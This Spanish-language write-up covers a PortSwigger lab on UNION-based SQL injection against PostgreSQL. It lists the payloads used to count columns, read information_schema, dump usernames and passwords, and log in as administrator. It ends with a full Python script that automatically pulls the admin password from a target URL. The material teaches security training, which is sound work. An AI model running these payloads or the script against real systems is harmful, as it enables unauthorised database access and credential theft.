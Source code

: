 ```yaml
---
title: "09 SQL injection attack, listing the database contents on non Oracle databases"
collection: publications
category: portswigger
permalink: /publications/SQLi/09_SQL injection attack, listing the database contents on non Oracle databases
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos PostgreSQL que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on non Oracle databases'
---
```


![logo]({{site.url}}/images/SQLi/sqli-9/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-9/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-9/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-9/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'-- 
' UNION SELECT 'A', 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-9/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Es una BD Postgres SQL

![DB version]({{site.url}}/images/SQLi/sqli-9/version.png)

```javascript
' UNION SELECT version(), NULL --
```

![version]({{site.url}}/images/SQLi/sqli-9/Payload.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-9/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_pzweot'--
```

```
username_jijzil
password_wjgcqi
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-9/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username_jijzil || '*****' || password_wjgcqi FROM users_pzweot--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
6rhx7r9m4iscbb2be39d
```

![login]({{site.url}}/images/SQLi/sqli-9/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-9/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3 
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = '/filter?category=Accessories'
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text


def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('.*users.*'))
    if users_table:
        return users_table
    else:
        return False

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '%s'--" % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*username.*'))
    password_column = soup.find(text=re.compile('.*password.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" %(username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for a users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        # step #5
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s" % username_column)
            print("Found the password column name: %s" % password_column)

            # step #6
            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("[-] Did not find the administrator password.")
        else:
            print("Did not find the username and/or the password columns.")

    else:
        print("Did not find a users table.")
```